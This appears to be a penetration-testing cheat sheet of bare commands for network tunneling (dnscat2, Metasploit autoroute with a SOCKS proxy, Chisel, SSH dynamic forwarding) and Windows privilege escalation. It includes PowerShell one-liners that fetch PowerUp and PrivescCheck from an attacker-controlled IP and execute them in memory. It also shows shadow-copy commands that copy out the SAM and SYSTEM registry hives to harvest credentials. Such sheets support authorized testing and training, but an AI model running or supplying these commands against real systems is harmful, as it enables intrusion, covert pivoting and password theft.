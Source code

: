 <hr>
# Tunneling
<hr>
DNSCAT
```
dnscat2-server tunnel.com
dnscat2-v0.07-client-win32.exe tunnel.com
listen 127.0.0.1:3389 172.16.51.21:3389
```

MSF autoroute
```shell
use multi/manage/autoroute
set session 1
exploit
use auxiliary/server/socks_proxy
set version 4a
set srvhost 127.0.0.1
exploit -j

bash -c 'echo "socks4 127.0.0.1 1080" >> /etc/proxychains.conf'

proxychains rdesktop 192.168.1.1
```

Chisel
```
./chisel server -p 8080 --socks5 << server
ssh -N -D 0.0.0.0:1080 localhost << server (tunnel)
chisel.exe client 192.168.1.1:8080 socks << client
```
<hr>
# PrivEsc
<hr>
Load PowerUp
```powershell
(new-object system.net.webclient).downloadstring('http://192.168.49.236/PowerUp.ps1') | IEX
Invoke-AllChecks
```

Load PrivEscCheck https://github.com/itm4n/PrivescCheck
```powershell
(new-object system.net.webclient).downloadstring('http://192.168.49.236/PrivescCheck.ps1') | IEX
Invoke-PrivescCheck -Extended
```

Shadowcopies
```
wmic shadowcopy call create Volume='C:\'
vssadmin list shadows
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\users\domain.com\Downloads\sam
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system C:\users\domain.com\Downloads\system
```
